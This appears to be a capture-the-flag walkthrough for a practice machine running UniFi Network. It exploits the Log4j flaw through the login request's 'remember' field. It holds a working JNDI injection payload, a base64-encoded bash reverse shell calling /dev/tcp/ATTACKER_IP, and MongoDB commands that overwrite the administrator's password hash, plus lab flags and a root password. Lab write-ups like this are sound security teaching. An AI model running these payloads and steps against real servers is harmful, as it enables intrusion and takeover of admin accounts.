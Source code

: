 ## enumeration
target: 10.129.96.149
tun0: 10.10.15.209

nmap scan: 22,6789,8080,8443
8443 is a tomcat server

software running: unifi network 6.4.54 
vulnerable to CVE-2021-44228 log4j2

"Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1) JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled."
https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228 

## Exploit
https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi
The vulnerability is in the remember value issued in the login request.

```
POST /api/login HTTP/2
{"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
```

Payload: a jndi injection
`${jndi:ldap://vulnerableserver.org/whatever}`

For this we need rogue-jndi which is a malicious LDAP server that we'll run on our attacker host.
https://github.com/veracode-research/rogue-jndi

We compile it with Maven (needs openjdk and maven packages)
Then we craft a reverse shell and b64 encode it.

```bash
echo 'bash -c bash -i >&/dev/tcp/ATTACKER_IP/4444 0>&1' | base64
```

```bash
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC4xMS41MC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "ATTACKER_IP"
```

we open a netcat listener at 4444 and we trigger the reverse shell with the payload thanks to BurpSuite's repeater.
```json
{"username":"aaaaa","password":"aaaaa","remember":"${jndi:ldap://10.10.15.209:1389/o=tomcat}","strict":true}
```

user flag:
6ced1a6a89e666c0620cdb10262ba127

mongoDB service running on 27117
default unifi db name: ace
https://community.ui.com/questions/External-MongoDB-Server/d311a8f8-43b6-4aeb-859d-eefec9dc1bbc

```bash
mongo --port 27117
```
we use `show dbs` to confirm that ace exists.
we access it with `use ace`
then we list collections with `show collections`
there is a collection "admin" which contains details about users credentials
we list it with `db.admin.find()`
we can see the "administrator" entry among others
the x_shadow field is the hashed password
algorith is SHA 512 so not crackable
instead we can update administrator's password
we use mkpasswd in order to do that

```bash
mkpasswd -m sha-512 azerty012
```

$6$x6zHaKN8UaipZPU4$DC92Hv5fRDGmzWoxt80LeqM2bPsKa6eks3ES8BtgwOSfPuIzkkcv6hpKvkvt3llkUEuz5N2eA3QDVXPu44fRv.

then we use `db.admin.update()` to update the administrator entry
administrator's id being :
```
"_id" : ObjectId("61ce278f46e0fb0012d47ee4")
```
the command will be:
```
db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$x6zHaKN8UaipZPU4$DC92Hv5fRDGmzWoxt80LeqM2bPsKa6eks3ES8BtgwOSfPuIzkkcv6hpKvkvt3llkUEuz5N2eA3QDVXPu44fRv."}})
```

now we can connect to the UI using our password
administrator:azerty012

root Passwd is NotACrackablePassword4U2022
let's connect using ssh

root flag is e50bc93c75b634e4b272d2f771c33681

